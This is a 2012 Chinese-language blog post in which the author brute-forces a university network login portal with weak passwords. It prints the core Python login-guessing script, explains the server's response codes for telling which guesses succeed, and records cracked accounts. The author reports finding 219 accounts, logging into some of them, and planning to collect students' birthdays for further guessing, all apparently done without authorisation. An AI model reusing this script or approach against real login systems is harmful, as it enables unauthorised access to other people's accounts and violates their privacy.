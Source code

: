 ```yaml
---
date: 2012-03-12 11:35:06+00:00
layout: post
title: 校园账户弱口令调查（一）
categories: [Python]
description: "之前CSDN等的网站密码被暴库，但是眼睛雪亮的人民群众发现IT网民居然有很多用弱口令作为登陆密码。很想知道在学校里，大家又是否使用弱口令作为密码。"
---
```


之前CSDN等的网站密码被暴库，但是眼睛雪亮的人民群众发现IT网民居然有很多用弱口令作为登陆密码。很想知道在学校里，大家又是否使用弱口令作为密码。

最近写了几十行python代码，用学号作为账号，用类似‘000000’等弱口令暴搜，然后根据返回的参数判断是否登陆成功，最后把成功登陆的账号密码记录下来。

以下是核心代码，当然全部代码不止这些，post登陆还需要处理cookies等信息，好在python够强大，这些不用操心。如有疑问，《[python发送GET或POST请求以便干一些趣事](http://nodex.iteye.com/blog/740183)》，这篇文章可能对你有帮助。

    
    log_url = 'http://10.0.0.55/cgi-bin/do_login' #登陆网址
    #首先把密码MD5
    a = md5.new(str(password))
    pswd = a.hexdigest()
    login_pswd = pswd[8:-8]#取中间16位
    login_info = {
                'drop' : 0, #1为仅访问免费资源，0为可以使用国际流量
                'n' : 100, #100为正常登陆，1为强制注销
                'password' : login_pswd,
                'type': 1,
                'username' : user}
    req = urllib2.Request(
                log_url,
                urllib.urlencode(login_info))
    resp = urllib2.urlopen(req)
    revalue = resp.read()
    if revalue == 'username_error':
        fo.seek(0,2)
    elif re.search('[^a-z]',revalue[0:1]) or revalue == 'status_error' or revalue ==       'usernum_error':#判断密码是否正确
        fw.write(user+'n')
        fw.write(password+'n')
        fo.seek(0,2)
    else:
        pass


其中需要post的数据有：

1. drop：1为仅访问免费资源，0为可以使用国际流量
2. n：100为正常登陆，1为强制注销
3. password：这个不解释，注意的是需要变成16位MD5密码
4. type：这个作用暂时不知道
5. username：这个也不解释

至于需要post什么内容，这时候就要用到firefox里强大的[firebug](http://getfirebug.com/)插件了，post后会返回一串字符，通过字符就能判断登陆情况。以下是一些常见情况和返回内容

* 登陆成功：一串数字字符
* 用户名错误：username_error
* 密码错误：password_error
* 欠费：status_error
* 人数达到上限：usernum_error
* IP已经存在：ip_exist_error
* 注销成功：logout_ok


一切准备就绪后可以开始。我判断密码正确的条件是1.登陆成功 2.欠费 3.人数达到上限。经过一轮暴搜，发现同学们还是挺多人使用弱口令作为密码，尤其是000000或与账号相同。根据记录，08级-11级四个年级加起来共有219个账号符合以上3个条件。

随后我使用客户端尝试登陆这些账号，却发现全是欠费状态。这时我才想到，这些账号会不会都已经是废弃不用的呢，于是“欠费”不算登陆成功条件再暴搜一遍，这回结果发现四个年级只有一个账号不是欠费的。你猜对了！其他218个账号全是欠费的，这证实我刚才的想法。看来我们大学生在网络上还是有些自我保护意识的。

但我认为这并不说明同学不使用弱口令做密码，接下来我将想办法获取用户的生日，然后使用生日来作为密码尝试登陆。
